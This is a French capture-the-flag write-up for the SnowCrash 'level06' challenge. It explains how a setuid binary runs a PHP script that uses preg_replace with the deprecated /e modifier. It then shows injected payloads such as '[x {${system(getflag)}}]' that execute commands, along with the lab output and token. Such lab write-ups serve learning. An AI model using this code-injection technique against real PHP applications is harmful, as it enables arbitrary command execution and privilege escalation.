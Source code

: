 #level06
## Observations

Nous disposons de deux fichiers à la racine:
- `level06.php`, qui a pour propriétaire `flag06`, et pour groupe `level06` (nous), nous avons les droits en lecture.
- `level06`, qui à le même proprietaire / groupe, nous  avons les droits de lecture et d'execution.

De plus, on s'aperçoit de la présence d'ACL pour `level06`, avec le `+` dans les permissions.
Un appel à `getfacl`, nous indique la présence du bit setuid `s`.
> Ainsi, le programme sera executé avec le propriétaire `flag06`.

En utilisant la commande `strings` sur le binaire, on peut supposer que ce binaire, 
execute le script php:
```
[^_]
/usr/bin/php
/home/user/level06/level06.php
;*2$"$
```

Comme dans les levels précédents, on va donc essayer d'injecter la commande `getflag`.

Observons le script PHP,
- Je le formatte grâce à [cet outil](http://www.phpformatter.com/)
- le code formatté est disponible en annexe.

Deux fonctions sont définies: `y($m)` et `x($y, $z)`

Le point d'entrée du programme sera (lignes 18-20):
```php
$r = x($argv[1], $argv[2]);

print $r;
```

Ce programme prendra ainsi deux arguments en lignes de commande.

Dans la fonction `x`, on définit une variable `$a`, prennant initialement comme
valeure le contenue d'un fichier, avec la fonction `file_get_contents`, le path du fichier
devra être spécifié dans le premier argument.

Nous avons ensuite une serie de regex, appliquées sur le contenu du fichier avec
la fonction PHP, `preg_replace`.

Preg_replace est utilisée avec l'option `\e`, qui a été [depréciée](https://www.php.net/manual/fr/function.preg-replace.php#refsect1-function.preg-replace-errors):
```php
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

`\e` permet de remplacer l'element matché par une regex par le résultat d'une fonction PHP.
Par conséquent cette option présente des vulnérabilités que je pourrai exloiter par la suite.

Par ailleurs, cette fonction remplacera le résultat de le groupe n°2.

> Chaque groupe est définit par des paranthèses, ainsi:
    > Ainsi le groupe n°1 représente la regex: "\[x (.*)\]"
    > Le groupe 2 la regex: ".*" (qui designe tous les caractères possibles,
    autant de fois que l'on souhaite).

Il faut également noter que ce groupe matché sera pré-traité dans la fonction `y`,
et en regardant les regex de la fonction `y`, on notera, qu'un caractère '.' ou '@',
sera remplacé.


# Résolution

Après avoir cherché à exploiter la faille de sécurité, je suis tombé sur une méthode
sur le lien suivant:
http://php.net/manual/en/reference.pcre.pattern.modifiers.php

De plus il faut que la fonction php que l'on veut injecter match notre groupe de regex:
Ainsi le contenu de notre fichier devra resemblrer à:
```
[x <code_php_a_executer>]
```

J'essaie d'abord d'injecter une simple fonction `phpinfo()`:
```sh
level06@SnowCrash:~$ cat > /tmp/level06
[x {${phpinfo()}}]
level06@SnowCrash:~$ ./level06 /tmp/level06
phpinfo()
PHP Version => 5.3.10-1ubuntu3.19

System => Linux SnowCrash 3.2.0-89-generic-pae #127-Ubuntu SMP Tue Jul 28 09:52:21 UTC 2015 i686
Build Date => Jul  2 2015 15:04:38
Server API => Command Line Interface
Virtual Directory Support => disabled
[...]
```

Ca marche, j'essaie donc avec la fonction `système` de php, pour passer la commande
`getflag`:
```sh
level06@SnowCrash:~$ cat > /tmp/level06
[x {${system(getflag)}}]
level06@SnowCrash:~$ ./level06 /tmp/level06
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```

J'obtiens mon flag, et je peux passer au level suivant :)
